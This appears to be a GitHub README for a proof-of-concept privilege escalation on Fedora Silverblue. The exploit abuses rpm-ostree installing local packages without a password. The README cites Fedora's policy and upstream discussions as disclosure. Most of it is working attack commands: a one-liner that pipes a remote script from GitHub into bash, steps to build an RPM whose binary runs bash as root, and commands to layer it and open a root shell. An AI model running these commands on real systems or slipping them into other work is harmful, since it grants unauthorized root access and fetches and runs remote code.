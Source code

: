 A privilege escalation proof-of-concept for Fedora immutable desktops, using the fact that `rpm-ostree install` doesn't ask for the user's password to install local packages.

## One-liner
```
bash <(curl https://raw.githubusercontent.com/rohanssrao/silverblue-privesc/main/privesc.sh)
```

To undo: `rpm-ostree remove privesc`

## More info

Fedora's [Privilege Escalation Policy](https://fedoraproject.org/wiki/Privilege_escalation_policy) says:

> The policy requires that any code which allows an unprivileged user account to perform, or cause to be performed, certain actions must require administrative authentication prior to the action being carried out.
> The actions are:
> - Add, remove, or downgrade any system-wide application or shared resource (packaged or otherwise), **with the exception that for installing Fedora-signed packages from administrator-configured repositories, the requirement to ask for a password is waived for members of the wheel group who are local and active.**

`privesc.rpm` is not Fedora-signed or from an administrator-configured repository, so this behavior can be considered a violation of the policy.

The relevant Polkit rule is [here](https://github.com/coreos/rpm-ostree/blob/3060372fd386f320e7733d7802b6a0fee38d39ae/src/daemon/org.projectatomic.rpmostree1.policy#L22).

Discussions: https://github.com/coreos/rpm-ostree/issues/745, https://github.com/coreos/rpm-ostree/pull/825

## Manual

**Requirements:**

```bash
dnf install rpmdevtools gcc glibc-static
```

**Building:**

```bash
rpmbuild --bb --define "_rpmdir $(pwd)" --define "_rpmfilename privesc.rpm" privesc.spec
```
This generates `privesc.rpm` in the current directory. Installing the package creates `/usr/bin/privesc` which simply runs bash as root.

**Usage:**

```bash
# Layer package
rpm-ostree install privesc.rpm
# Enter root shell. privesc is placed in the newest deployment
"$(ls -td /ostree/deploy/fedora/deploy/*/ | head -1)"/usr/bin/privesc
```
